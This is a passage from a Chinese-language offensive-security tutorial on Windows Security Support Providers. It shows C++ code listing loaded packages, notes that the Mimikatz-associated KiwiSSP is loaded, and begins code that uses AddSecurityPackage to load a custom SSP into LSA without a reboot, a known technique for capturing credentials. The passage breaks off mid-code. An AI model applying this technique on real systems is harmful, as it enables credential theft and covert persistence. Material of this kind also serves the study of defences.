 ```c++
// ListSSPs.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//

#define SECURITY_WIN32

#include <stdio.h>
#include <Windows.h>
#include <sspi.h>
#include <Security.h>

#pragma comment(lib, "Secur32.lib")

int wmain(int argc, wchar_t* argv[]) {
    ULONG packageCount = 0;
    PSecPkgInfoW packages;

    if (EnumerateSecurityPackagesW(&packageCount, &packages) == SEC_E_OK) {
        for (int i = 0; i < packageCount; i++) {
            wprintf(L"Name: %s    Comment: %s\n", packages[i].Name, packages[i].Comment);
        }
    }
}
```

如下图所示，KiwiSSP 已经加载到了当前系统中：

![image-20230531104250371](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-708b4bf3b162c32b8b887e4eaa69aaeea2991d0e.png)

利用 AddSecurityPackage API 来加载 SSP/AP
====================================

到目前为止，成功利用自定义 SSP 的条件是必须重新启动系统。因此只有启动计算机系统后，本地安全机构（LSA）才会自动将已注册的 SSP/AP 的 DLL 加载到其进程空间中。

然而，利用某些 Windows API，我们可以在不重启的情况下添加 SSP/AP。

AddSecurityPackage 是一个 SSPI 函数，用于将安全支持提供程序添加到提供程序列表中，该函数声明如下。

```C++
SECURITY_STATUS SEC_ENTRY AddSecurityPackageW(
  [in] LPSTR                     pszPackageName,
  [in] PSECURITY_PACKAGE_OPTIONS pOptions
);
```

参数如下：

- \[in\] pszPackageName：要添加的包的名称。
- \[in\] pOptions：指向 `SECURITY_PACKAGE_OPTIONS` 结构的指针，该结构指定有关安全包的其他信息。

通过 C/C++ 创建一个名为 AddSSP 的项目，其代码如下所示。

```c++
#define SECURITY_WIN32

#include <stdio.h>
#include <Windows.h>
#include <Security.h>
#pragma comment(lib,"Secur32.lib")

int wmain(int argc, char** argv) {

    SECURITY_PACKAGE_OPTIONS option;
    option.Size = sizeof(option);
    option.Flags = 0;
    option.Type = SECPKG_OPTIONS_TYPE_LSA;
    option.SignatureSize = 0;
    option.Signature = NULL;

```